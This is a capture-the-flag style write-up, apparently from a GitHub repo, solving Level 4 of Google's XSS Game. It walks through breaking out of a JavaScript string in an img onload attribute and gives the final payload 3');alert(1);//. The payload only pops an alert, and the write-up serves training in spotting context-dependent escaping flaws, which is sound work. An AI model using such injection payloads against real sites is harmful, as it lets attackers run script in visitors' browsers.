 ```markdown
### 🧪 Google XSS Game - Level 4

#### 🎯 Mission Description
Every piece of user-supplied data must be properly escaped depending on the context it's placed in. This level shows why that matters.

#### 🎯 Mission Objective
Inject JavaScript code that triggers an `alert()` popup.

---
```
### 🪜 Steps

- We checked the source code and found this line:

  ```html
  <img src="/static/loading.gif" onload="startTimer('3');" />
  

- This is where we’ll inject our payload — specifically inside the `onload` attribute.

- First attempt was:

  ```
  X">x
  ```

  Which resulted in:

  ```html
  <img src="/static/loading.gif" onload="startTimer('X&quot;&gt;x');" />
  ```

  So the special characters were escaped, and the attempt failed.

- Instead, we decided to break the `startTimer()` function itself and inject our code inside the JavaScript context.

- First, we closed the string and function with:

  ```
  3');
  ```

- Then injected:

  ```
  alert(1);
  ```

- And finally closed off the rest of the line using:

  ```
  //
  ```

---

### 💣 Final Payload

```
3');alert(1);//
```

And it gets rendered as:

```html
<img src="/static/loading.gif" onload="startTimer('3');alert(1);//');" />
```

---

### 🧠 Notes

- This is an example of XSS within JavaScript context.
- You don’t always need to break out of an HTML attribute — sometimes injecting inside the script logic itself is more effective.
- Always analyze the context of the injection point before crafting your payload.

---

**Status: Solved ✅**
```
